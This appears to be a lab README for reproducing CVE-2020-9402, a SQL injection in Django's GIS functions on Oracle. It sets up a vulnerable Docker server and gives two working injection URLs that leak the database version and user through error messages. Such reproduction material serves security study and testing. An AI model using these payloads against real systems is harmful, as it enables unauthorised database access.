

Django GIS functions and aggregates on Oracle SQL Injection (CVE-2020-9402)¶
Django is a high-level Python web framework that encourages rapid development and clean, pragmatic design.
Django released a security update on March 4, 2020, which fixes a SQL injection vulnerability in the GIS functions and aggregates on Oracle. This vulnerability affects Django versions before 3.0.4, 2.2.11, and 1.11.29.
The vulnerability requires the developer to use GIS functions and aggregates, and the field name of the queryset can be controlled by the user. This vulnerability can be exploited through Django's built-in admin interface.
References:
Environment Setup¶
Execute the following command to compile and start a vulnerable Django 3.0.3 server:
docker compose build
docker compose up -d
After the server is started, you can access the Django home page at http://your-ip:8000.
Vulnerability Reproduction¶
First, visit http://your-ip:8000/vuln/. You can inject SQL by adding malicious input to the q parameter:
http://your-ip:8000/vuln/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null OR (1+1
The SQL error message will be displayed, confirming the successful injection:

Alternatively, you can visit http://your-ip:8000/vuln2/ and inject SQL using a different payload:
http://your-ip:8000/vuln2/?q=0.05))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --
The SQL error message will again confirm the successful injection:
